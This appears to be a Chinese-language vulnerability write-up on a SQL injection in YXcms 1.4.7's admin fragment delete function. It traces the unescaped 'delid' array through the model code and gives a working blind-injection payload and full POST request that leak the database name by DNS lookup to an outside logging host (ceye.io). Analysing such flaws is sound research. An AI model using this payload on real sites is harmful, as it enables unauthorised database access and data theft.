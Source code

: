 ```yaml
---
title: "YXCMS 1.4.7SQL注入"
id: zhfly3300
---
```


# YXcms 1.4.7 sql注入

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

```
public function del()
{
    if(!$this->isPost()){
        $id=intval($_GET['id']);
        if(empty($id)) $this->error('您没有选择~');
        if(model('fragment')->delete("id='$id'"))
        echo 1;
        else echo '删除失败~';
    }else{
        if(empty($_POST['delid'])) $this->error('您没有选择~');
        $delid=implode(',',$_POST['delid']);
        if(model('fragment')->delete('id in ('.$delid.')'))
        $this->success('删除成功',url('fragment/index'));
    }
} 
```

我们跟if(model('fragment')->delete("id='$id'")),它会先到protected/core.php文件里面的model

```
function model($model){
    static $objArray = array();
    $className = $model . 'Model';
    if( !is_object($objArray[$className]) ){
        if( !class_exists($className) ) {
            throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
        }
        $objArray[$className] = new $className();
    }
    return $objArray[$className];
} 
```

然后到protected/apps/admin/model/fragmentModel.php

```
<?php
class fragmentModel extends baseModel{
    protected $table = 'fragment';
} 
```

继续protected/base/model/baseModel.php

```
<?php
class baseModel extends model{
     protected $prefix='';
     public function __construct( $database= 'DB',$force = false ){
        parent::__construct();
        $this->prefix=config('DB_PREFIX');
    }
} 
```

再来到最底层的数据库操作类protected/base/model/model.php的第45行

```
public function delete($condition){
return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
    } 
```

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

```
static public function connect($config, $force=false){
        static $model = NULL;
        if( $force==true || empty($model) ){
            $model = new cpModel($config);
        }
        return $model;
    } 
```

漏洞文件在protected/include/core/cpModel.class.php,

```
public function delete() {
        $table = $this->options['table'];   //当前表
        $where = $this->_parseCondition();  //条件
        if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

```
 $this-&gt;sql = "DELETE FROM $table $where";
    $query = $this-&gt;db-&gt;execute($this-&gt;sql);
    return $this-&gt;db-&gt;affectedRows();
} 
``` 
```

这里用到了一个方法_parseCondition()

```
private function _parseCondition() {
        $condition = $this->db->parseCondition($this->options);
        $this->options['where'] = '';
        $this->options['group'] = '';
        $this->options['having'] = '';
        $this->options['order'] = '';
        $this->options['limit'] = '';
        $this->options['field'] = '*';      
        return $condition;      
    }
} 
```

这个函数是在protected/include/core/db/cpMysql.class.php的128行

```
public function parseCondition($options) {
        $condition = "";
        if(!empty($options['where'])) {
            $condition = " WHERE ";
            if(is_string($options['where'])) {
                $condition .= $options['where'];
            } else if(is_array($options['where'])) {
                    foreach($options['where'] as $key => $value) {
                         $condition .= " `$key` = " . $this->escape($value) . " AND ";
                    }
                    $condition = substr($condition, 0,-4);  
            } else {
                $condition = "";
            }
        }

```
 if( !empty($options['group']) &amp;&amp; is_string($options['group']) ) {
        $condition .= " GROUP BY " . $options['group'];
    }
    if( !empty($options['having']) &amp;&amp; is_string($options['having']) ) {
        $condition .= " HAVING " .  $options['having'];
    }
    if( !empty($options['order']) &amp;&amp; is_string($options['order']) ) {
        $condition .= " ORDER BY " .  $options['order'];
    }
    if( !empty($options['limit']) &amp;&amp; (is_string($options['limit']) || is_numeric($options['limit'])) ) {
        $condition .= " LIMIT " .  $options['limit'];
    }
    if( empty($condition) ) return "";
    return $condition;
} 
``` 
```

里面有一个行数来过滤escape,我们找到74行的这个函数定义

```
public function escape($value) {
        if( isset($this->_readLink) ) {
            $link = $this->_readLink;
        } elseif( isset($this->_writeLink) ) {
            $link = $this->_writeLink;
        } else {
            $link = $this->_getReadLink();
        }

```
 if( is_array($value) ) { 
       return array_map(array($this, 'escape'), $value);
    } else {
       if( get_magic_quotes_gpc() ) {
           $value = stripslashes($value);
       } 
        return  "'" . mysql_real_escape_string($value, $link) . "'";
    }
} 
``` 
```

不过这个函数有一句is_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用http://ceye.io和python脚本跑

```
http://0-sec.org/index.php?r=admin/fragment/index 
```

payload:

```
1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 
```

*   `点击删除` 

post包

```
POST /index.php?r=admin/fragment/del HTTP/1.1

Host: [0-sec.org](http://0-sec.org)

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 188

Referer: [http://127.0.0.1/index.php?r=admin/fragment/index](http://127.0.0.1/index.php?r=admin/fragment/index)

Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2;

Connection: close

Upgrade-Insecure-Requests: 1 `delid%5B%5D=select LOAD_FILE((CONCAT(’\\’,(SELECT DATABASE()),’.8571e594.2m1.pw\abc’)))&**hash**=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8` 
```

![image](../img/24c7a63a1e81924a20a78b423055d572.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![image](../img/16eb70448907b800a36fee76a8e79a66.png)

然后进入http://ceye.io/records/dns 查看我们的数据

![image](../img/530cca24c637aeefc9e616ab84b290d2.png)